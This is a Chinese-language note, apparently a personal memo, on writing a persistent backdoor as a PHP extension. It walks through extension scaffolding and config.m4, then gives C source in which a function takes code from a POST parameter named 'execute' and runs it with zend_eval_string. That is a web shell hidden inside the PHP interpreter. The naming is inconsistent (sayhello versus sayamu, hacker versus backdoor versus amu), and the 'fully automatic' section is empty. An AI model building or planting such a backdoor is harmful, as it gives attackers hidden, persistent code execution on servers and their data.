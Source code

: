 > php持续扩展后门，在PHP扩展中，我们主要关注4个hooks：`MINIT`＆`MSHUTDOWN`，以及`RINIT`和`RSHUTDOWN`。当解释器启动和停止时，M 以root身份执行（通常）。R 在作为服务器用户执行

#### 自定义函数触发方式

* 扩展编写

  * 扩展骨架生成

    `./ext_skel --extname=backdoor`

  * 修改*config.m4*文件

    **PHP_ARG_ENABLE** 说明

        第1个参数是我们扩展的名字，这里为hacker
        
        第2个参数是我们运行./configure 脚本时显要指定示的内容，这里没有配置，即为0
        
        第3个参数是我们在调用./configure –help 的 时候要指定显示的帮助信息，这里也没有配置，为0
    **PHP_NEW_EXTENSION**说明

    第1个参数是模块名字，这里为backdoor

    第2个参数表示的是编译模块需要的源文件名称 ，这里为backdoor.c

    如果我们的扩展使用了多个文件，便可以将这多个文件名罗列在函数的参数里，不同源文件之间以空格隔开， 比如：

    ```
    PHP_NEW_EXTENSION(sample, sample.c sample2.c sample3.c, $ext_shared)
    ```

    第3个参数表示的是编译的形式，这里的$ext_shared参数用来声明这个扩展不是一个静态模块，而是在php运行时动态加载的。

  * 修改 *backdoor.c*

    ```
    PHP_FUNCTION(sayhello)
    {
        char* method = "_POST";
        char* secret_string = "execute";
    
        #if PHP_MAJOR_VERSION < 7
            zval** arr;
            char* code;
            if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) == SUCCESS) {
            HashTable* ht = Z_ARRVAL_P(*arr);
            zval** val;
            if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) == SUCCESS) {
                code =  Z_STRVAL_PP(val);
            }
            zend_eval_string(code, NULL, (char *)"" TSRMLS_CC);
            }
        #else
            zval* arr,*code =NULL;
            if (arr = zend_hash_str_find(&EG(symbol_table), "_POST", sizeof("_POST") - 1)) {
                if (Z_TYPE_P(arr) == IS_ARRAY && (code = zend_hash_str_find(Z_ARRVAL_P(arr), secret_string, strlen(secret_string)))) {
                    zend_eval_string(Z_STRVAL_P(code), NULL, (char *)"" TSRMLS_CC);
                }
            }
        #endif
        return SUCCESS;
    }
    ```

    增加入口说明

    ```
    const zend_function_entry amu_functions[] = {
    	PHP_FE(confirm_amu_compiled,	NULL)		/* For testing, remove later. */
    	PHP_FE(sayhello, NULL)
    	PHP_FE_END	/* Must be the last line in amu_functions[] */
    };
    ```

  * 编译安装

* 验证

  ```
  pi@raspberrypi:/Data/apps/nginx/html $ cat index.php 
  <?php
  sayamu();
  ```

  ![trigger_exec](/home/amu/桌面/memo/trigger_exec.png)

#### 全自动执行方式

* 扩展编写
* 验证